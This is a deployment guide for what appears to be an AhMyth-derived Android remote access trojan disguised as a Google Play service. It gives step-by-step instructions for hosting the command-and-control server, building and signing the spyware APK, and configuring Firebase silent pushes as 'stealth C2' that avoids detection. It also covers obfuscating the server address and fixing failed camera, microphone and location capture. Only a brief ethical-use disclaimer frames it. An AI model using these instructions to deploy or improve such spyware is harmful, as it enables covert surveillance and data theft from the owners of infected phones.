

# Deployment Guide

> **⚠️ Ethical Use:** This software is for educational and authorized testing only. Deploy only on infrastructure you own or have explicit permission to test.

---

## 📖 Table of Contents

1. [Deployment Overview](#-deployment-overview)
2. [C2 Server Deployment](#-c2-server-deployment)
3. [GitHub Pages Site](#-github-pages-site)
4. [CI/CD Pipeline](#-cicd-pipeline)
5. [Firebase Cloud Messaging Setup](#-firebase-cloud-messaging-setup)
6. [Native NDK Build Requirements](#-native-ndk-build-requirements)
7. [APK Distribution](#-apk-distribution)
8. [Server Configuration Reference](#-server-configuration-reference)
9. [Troubleshooting](#-troubleshooting)

---

## 🏗 Deployment Overview

```
┌──────────────────────────────────────────────────────────────────┐
│                        Internet                                  │
├──────────────────────────────────────────────────────────────────┤
│                                                                  │
│  ┌─────────────────┐    ┌─────────────────┐                      │
│  │  GitHub Pages    │    │   C2 Server     │                      │
│  │  (.freebuff/)    │    │   (Node.js)     │                      │
│  │  ┌─────────────┐│    │  ┌─────────────┐│    ┌──────────────┐  │
│  │  │ Landing Page││    │  │ Socket.IO   ││    │  Firebase    │  │
│  │  │ Architecture││    │  │ Express HTTP│├───→│  Cloud       │  │
│  │  │ Dashboard   ││    │  │ FCM Push API││    │  Messaging   │  │
│  │  └─────────────┘│    │  └─────────────┘│    └──────┬───────┘  │
│  └─────────────────┘    └─────────────────┘           │          │
│                                                         │          │
│  ┌──────────────────────────────────────────────────────┘          │
│  ▼                                                                 │
│  ┌──────────────────────────────────────────────┐                   │
│  │            Android Device (APK)               │                   │
│  │  Socket.IO direct or FCM-triggered            │                   │
│  └──────────────────────────────────────────────┘                   │
└──────────────────────────────────────────────────────────────────┘
```

The project has **4 deployable components**:

| Component | Deployment Method | Purpose |
|-----------|------------------|---------|
| **C2 Server** | Node.js process (any host) | Socket.IO relay + FCM push endpoint |
| **GitHub Pages** | Git push → Actions → gh-pages | Static dashboard + docs |
| **APK** | Built via CI or local Gradle | Android client installation |
| **CI/CD Pipeline** | GitHub Actions | Automated build + test + deploy |

---

## 🌐 C2 Server Deployment

### Option 1: Local Development Server

```bash
cd .freebuff
npm install socket.io express
node c2-server.js
# → http://localhost:42474
```

### Option 2: Dedicated VPS / Cloud Server

```bash
# 1. SSH into your server
ssh user@your-server-ip

# 2. Install Node.js 18+
curl -fsSL https://deb.nodesource.com/setup_18.x | sudo -E bash -
sudo apt-get install -y nodejs

# 3. Clone and setup
git clone https://github.com/IamAzmathullaShaikh/AhMyth-Google-Play-Service-Client.git
cd AhMyth-Google-Play-Service-Client/.freebuff
npm install socket.io express

# 4. Start with process manager (recommended)
npm install -g pm2
pm2 start c2-server.js --name ahmyth-c2
pm2 save
pm2 startup  # Auto-start on reboot

# 5. Configure firewall
sudo ufw allow 42474/tcp
```

### Option 3: Docker (Manual)

```dockerfile
FROM node:18-alpine
WORKDIR /app
COPY .freebuff/ .
RUN npm install socket.io express
EXPOSE 42474
CMD ["node", "c2-server.js"]
```

```bash
docker build -t ahmyth-c2 .
docker run -d -p 42474:42474 --name ahmyth-c2 ahmyth-c2
```

### Server URL Configuration

On the Android side, edit `app/build.gradle`:

```groovy
buildConfigField "String", "SOCKET_URL", "\"http://YOUR_SERVER_IP:42474\""
```

> **Note:** The native AES library decrypts URL query parameters at runtime. The server IP itself is in `BuildConfig.SOCKET_URL` and can be obfuscated by storing it as an encrypted string and replacing the `BuildConfig` access with `ObfuscationUtils.decrypt()` in `IOSocket.java`.

### Production Considerations

| Concern | Recommendation |
|---------|---------------|
| **TLS/HTTPS** | Use a reverse proxy (nginx/Caddy) with Let's Encrypt |
| **Authentication** | Add token auth to dashboard websocket |
| **Persistence** | Use `pm2` or `systemd` for auto-restart |
| **Monitoring** | Add health check: `GET /api/health` |
| **Rate limiting** | Protect FCM push endpoint from abuse |

#### TLS Reverse Proxy Example (nginx)

```nginx
server {
    listen 443 ssl;
    server_name c2.example.com;

    ssl_certificate /etc/letsencrypt/live/c2.example.com/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/c2.example.com/privkey.pem;

    location / {
        proxy_pass http://127.0.0.1:42474;
        proxy_http_version 1.1;
        proxy_set_header Upgrade $http_upgrade;
        proxy_set_header Connection "upgrade";
        proxy_set_header Host $host;
    }
}
```

---

## 📄 GitHub Pages Site

### Automatic Deployment (CI/CD)

The `.github/workflows/deploy-pages.yml` workflow automatically deploys the `.freebuff/` directory to the `gh-pages` branch on every push that changes files in `.freebuff/`.

**Trigger:** Push to `modernization-and-persistence` or `main` branches that modify `.freebuff/**` or `.github/workflows/deploy-pages.yml`

**What gets deployed:**

```
gh-pages branch root/
├── index.html                    → Landing page
├── ahmyth-visual-explanation.html → Architecture diagrams
├── c2-dashboard.html             → C2 command dashboard
├── c2-server.js                  → Downloadable server (not served)
├── FCM_SETUP.md                  → Firebase setup guide
```

**Site URL:** `https://<username>.github.io/AhMyth-Google-Play-Service-Client/`

### Manual Deployment

```bash
# Build the deployment directory
mkdir -p _deploy
cp .freebuff/index.html .freebuff/ahmyth-visual-explanation.html \
   .freebuff/c2-dashboard.html .freebuff/c2-server.js \
   _deploy/
touch _deploy/.nojekyll

# Deploy to gh-pages
npx gh-pages -d _deploy
```

### Important Notes

- The **C2 dashboard** requires a running Socket.IO server to function. On GitHub Pages it renders as a static page with a "Disconnected" notice.
- The **architecture document** works fully statically — no server needed.
- `.nojekyll` file is required to prevent Jekyll processing of binary/CSS/JS files.

---

## 🔄 CI/CD Pipeline

### Build & Test Pipeline (`.github/workflows/build.yml`)

Triggered on: push/PR to `main`, `modernization-and-persistence`, `feat/*`, `fix/*`, `docs/*`



| Job | Task | Artifacts | Retention |
|-----|------|-----------|-----------|
| **wrapper-validation** | Checks Gradle wrapper JAR checksum | — | — |
| **validate** | `./gradlew lintDebug` | HTML lint report | 7 days |
| **test** | `./gradlew testDebugUnitTest` | XML test reports | 14 days |
| **build** | `./gradlew assembleDebug` | `app-debug.apk` + ProGuard mapping | 30 days |
| **summary** | Aggregates pass/fail into job summary | — | — |

**Features:**
- **Concurrency:** Cancels redundant runs on the same branch
- **Caching:** Two-tier (deps + build cache)
- **Secret override:** `CI_SOCKET_URL` secret injects custom server URL into build
- **Environment:** `ubuntu-latest`, JDK 17 (Temurin), compileSdk 34

### Deploy Pipeline (`.github/workflows/deploy-pages.yml`)

Triggered on: push to `modernization-and-persistence` or `main` modifying `.freebuff/`

```yaml
jobs:
  deploy:
    steps:
      - checkout
      - cp .freebuff/* _deploy/
      - touch _deploy/.nojekyll
      - peaceiris/actions-gh-pages@v4
      - → force_orphan push to gh-pages
```

### Viewing Pipeline Results

```
GitHub → Actions → Select workflow → Click run
  ├── Summary page → download APK artifact
  ├── validate job → view lint report
  └── test job → view test results
```

---

## 🔥 Firebase Cloud Messaging Setup

See the dedicated **[FCM_SETUP.md](.freebuff/FCM_SETUP.md)** for full step-by-step configuration.

### Quick Summary

| Step | Action | Files |
|------|--------|-------|
| 1 | Create Firebase project | Firebase Console |
| 2 | Register Android app (`com.android.background.services`) | Firebase Console |
| 3 | Download `google-services.json` → `app/` | Firebase Console |
| 4 | Create service account → `.freebuff/service-account.json` | Firebase → Project Settings → Service accounts |
| 5 | Install `firebase-admin` npm package | `npm install firebase-admin` |
| 6 | Start server | `node .freebuff/c2-server.js` |

The FCM channel enables **stealth C2**: commands are pushed via Firebase silent data messages, triggering brief Socket.IO connections only when commanded. This avoids persistent WebSocket detection.

---

## 🛠 Native NDK Build Requirements

### Installing NDK

The project compiles a native C library (`libobfuscation_native.so`) for AES-128 decryption. The NDK is required.

**Via Android Studio:**

1. **Tools → SDK Manager → SDK Tools tab**
2. Check **NDK (Side by side)** and **CMake**
3. Click **Apply** → **OK**

**Via command line (sdkmanager):**

```bash
sdkmanager "ndk;28.2.13676358" "cmake;3.22.1"
```

### Build Verification

After a successful build, verify the native library is included:

```bash
# Check the APK contents
unzip -l app/build/outputs/apk/debug/app-debug.apk | grep obfuscation

# Expected output (4 ABIs):
#   lib/arm64-v8a/libobfuscation_native.so
#   lib/armeabi-v7a/libobfuscation_native.so
#   lib/x86/libobfuscation_native.so
#   lib/x86_64/libobfuscation_native.so
```

### Supported ABIs

| ABI | Devices | Library Path |
|-----|---------|--------------|
| `arm64-v8a` | 95%+ of modern devices | `lib/arm64-v8a/libobfuscation_native.so` |
| `armeabi-v7a` | Older 32-bit ARM devices | `lib/armeabi-v7a/libobfuscation_native.so` |
| `x86` | Emulators (older) | `lib/x86/libobfuscation_native.so` |
| `x86_64` | Emulators (modern) | `lib/x86_64/libobfuscation_native.so` |

To restrict to ARM64 only (smaller APK), edit `app/build.gradle`:

```groovy
ndk {
    abiFilters "arm64-v8a"
}
```

---

## 📦 APK Distribution

### Building the APK

```bash
# Debug build (with debuggable flag)
./gradlew assembleDebug

# Release build (with ProGuard obfuscation + resource shrinking)
./gradlew assembleRelease

# Output locations:
#   app/build/outputs/apk/debug/app-debug.apk
#   app/build/outputs/apk/release/app-release.apk
```

### Signing the APK

For installation on devices (not emulators), the APK must be signed:

```bash
# Android Studio: Build → Generate Signed Bundle / APK
# Or via command line (configure signing in build.gradle first):
./gradlew assembleRelease
```

### Downloading from CI

1. Go to **GitHub Actions → Build & Test workflow**
2. Click the latest green run
3. Scroll to **Artifacts** section
4. Download `app-debug` APK

---

## ⚙ Server Configuration Reference

### Environment Variables

| Variable | Default | Description |
|----------|---------|-------------|
| `PORT` | `42474` | Server listen port |
| (none) | — | Firebase config read from `service-account.json` |

### API Endpoints

| Method | Path | Purpose |
|--------|------|---------|
| `GET` | `/` | Serve dashboard HTML |
| `GET` | `/api/health` | Health check (status, client count, FCM status) |
| `POST` | `/api/fcm/register` | FCM token registration from device |
| `POST` | `/api/fcm/push` | Send command via FCM push |
| `GET` | `/api/fcm/devices` | List FCM-registered devices |

### WebSocket Events (Socket.IO)

See [CONTRIBUTING.md — C2 Protocol Specification](CONTRIBUTING.md#-c2-protocol-specification) for the complete event reference.

---

## ❌ Troubleshooting

### Build Failures

| Error | Cause | Fix |
|-------|-------|-----|
| `NDK did not have a source.properties file` | NDK installation corrupted | Reinstall NDK via SDK Manager, or create `source.properties` manually |
| `CXX1101` | NDK version mismatch | Set `ndkVersion "28.2.13676358"` in `app/build.gradle` |
| `cannot find symbol ENC_X0000XX` | ObfuscationUtils constant not public | Verify constant is `public static final` |
| `UnsatifiedLinkError: obfuscation_native` | Native lib not loaded | Check `System.loadLibrary("obfuscation_native")` in ObfuscationUtils |
| `Could not find method externalNativeBuild()` | Old AGP version | Update to AGP 8.2+ |

### Server Issues

| Symptom | Cause | Fix |
|---------|-------|-----|
| Dashboard shows "Disconnected" | Server not running on port 42474 | Verify `node .freebuff/c2-server.js` is running |
| Device connects but commands don't work | Wrong `SOCKET_URL` in build.gradle | Update to correct server IP |
| FCM shows "Not configured" | Missing `service-account.json` | Generate from Firebase Console |
| `EADDRINUSE` | Port 42474 already in use | Kill existing process or change `PORT` |

### Runtime Crashes

| Crash | Cause | Fix |
|-------|-------|-----|
| `SecurityException` on camera | Permission denied | Ensure CAMERA permission granted |
| `IOException` on mic recording | Permission or storage issue | Check RECORD_AUDIO + storage permissions |
| Location returns no data | GPS disabled or permission not granted | Enable GPS or check ACCESS_FINE_LOCATION |

---

## 📚 Related Documentation

| Document | Description |
|----------|-------------|
| [README.md](README.md) | Project overview, quick start, features |
| [CONTRIBUTING.md](CONTRIBUTING.md) | Architecture, development, C2 protocol, code style |
| [FCM_SETUP.md](.freebuff/FCM_SETUP.md) | Firebase Cloud Messaging setup guide |
| [run.md](.freebuff/run.md) | Local demo server instructions |
